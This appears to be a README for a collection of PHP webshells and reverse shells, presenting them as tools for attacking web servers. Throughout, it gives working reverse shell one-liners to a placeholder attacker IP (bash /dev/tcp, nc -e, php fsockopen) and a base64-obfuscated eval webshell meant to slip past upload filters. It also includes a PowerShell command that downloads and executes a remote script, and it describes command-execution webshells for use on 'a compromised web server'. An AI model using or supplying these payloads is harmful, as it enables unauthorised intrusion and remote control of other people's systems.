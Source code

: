 <h3 align='center'><b>One-liner php reverse shell</b></h3>
 <pre><code>&lt;?php exec("/bin/bash -c 'bash -i >/dev/tcp/&lt;IP>/&lt;PORT> 0>&1'"); ?></code></pre>
<h3 align='center'><b> rev_shell.php </b></h3>
 <p>A simple python reverse shell
<h3 align='center'><b> shell_with_curl.php </b></h3> 
 <p>A simple webshell check by curl command to that file in victim url directory
<h3 align='center'><b> shell_with_param.php </b></h3> 
 <p>A simple webshell works by taking a parameter and executing it as a system command.
<h3 align='center'><b> webshell.php </b></h3>
 <p> In pseudocode, the above snippet is doing the following:
  <ol>
    <li> Checking if the parameter "commandString" is set
    <li> If it is, then the variable $command_string gets what was passed into the input field
    <li> The program then goes into a try block to execute the function passthru($command_string).  The docs on passthru() on <a href='https://www.php.net/manual/en/function.passthru.php'> PHP's website </a>, but in general, it is executing what gets entered into the input then passing the output directly back to the browser.
    <li>If the try does not succeed, output the error to page.  Generally this won't output anything because you can't output stderr but PHP doesn't let you have a try without a catch.

<h3 align='center'><b> Reverse shell command </b></h3> 
   <pre><code>nc -e /bin/bash &lt;ATTACKER_IP> &lt;ATTACKER_PORT></code></pre>
   <pre><code>bash -i >& /dev/tcp/&lt;ATTACKER_IP>/&lt;ATTACKER_PORT> 0>&1</code></pre>
   <pre><code>php -r '$sock=fsockopen("&lt;ATTACKER_IP>",&lt;ATTACKER_PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'</code></pre>

<h3>Probably can bypass filters while upload, for example.</h3>
 <pre><code>&lt;?=eval(base64_decode('ZWNobyBzaGVsbF91eGVjKCRfR0VUWydjbWQnXS4nIDI+JjEnKTs='));?></code></pre>

<h3 align='center'><b>Commands for Windows Reverse Shell</b></h3>
 <pre><code>python3 -m http.server 80</code></pre>
 <pre><code>nc -lvnp 4444</code></pre>
 <pre><code>powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://&lt;ATTACKER_IP>/reverse.ps1'')"</code></pre>
<h3 align='center'><b>cmd_exec_poc.php</b></h3>
<p>This PHP script is a simple yet effective utility for situations where you need to execute system commands remotely on a compromised web server. It’s designed to handle specific scenarios where single-line scripts may fail due to various restrictions or server configurations.
